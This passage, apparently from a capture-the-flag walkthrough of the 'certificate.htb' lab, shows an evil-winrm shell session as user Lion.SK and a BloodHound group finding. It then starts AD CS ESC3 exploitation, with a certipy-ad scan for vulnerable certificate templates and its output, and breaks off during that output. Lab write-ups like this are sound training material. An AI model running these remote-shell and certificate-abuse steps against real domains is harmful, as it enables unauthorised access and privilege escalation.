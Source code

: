 ```powershell
└─$ evil-winrm -i 10.10.11.71 -u 'Lion.SK' -p '!*******x'                                          
Evil-WinRM shell v3.7

*Evil-WinRM* PS C:\Users\Lion.SK\Documents> cd ../
*Evil-WinRM* PS C:\Users\Lion.SK> tree /f /a
Folder PATH listing
Volume serial number is 7E12-22F9
C:.
+---Desktop
|       user.txt
|
+---Documents
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
*Evil-WinRM* PS C:\Users\Lion.SK> 
```
{: .nolineno }

I observed the domain through bloodhound and I got this user <b><span style="color:rgb(219, 0, 0)">Lion.SK</span></b>
 as a part of <mark style="background: #BBFABBA6;">Domain CRA Managers</mark> group in which The members of this security group are responsible for issuing and revoking multiple
certificates for the domain users.

![](Pasted%20image%2020250914120833.png)
_Bloodhound <b><span style="color:rgb(219, 0, 0)">Lion.SK</span></b>
 user Outbound object control relations_

## 🔟 ADCS Enumeration and ESC3 Exploitation

**Tools**: Certipy-AD[](https://github.com/ly4k/Certipy).

**Content**:

Lets check the vulnerability in Certificates 😀 

```bash
└─$ certipy-ad find -vulnerable -u 'Lion.SK@certificate.htb' -p '!*******x' -stdout -dc-ip 10.10.11.71
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 18 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'Certificate-LTD-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'Certificate-LTD-CA'
[*] Checking web enrollment for CA 'Certificate-LTD-CA' @ 'DC01.certificate.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : Certificate-LTD-CA
    DNS Name                            : DC01.certificate.htb
```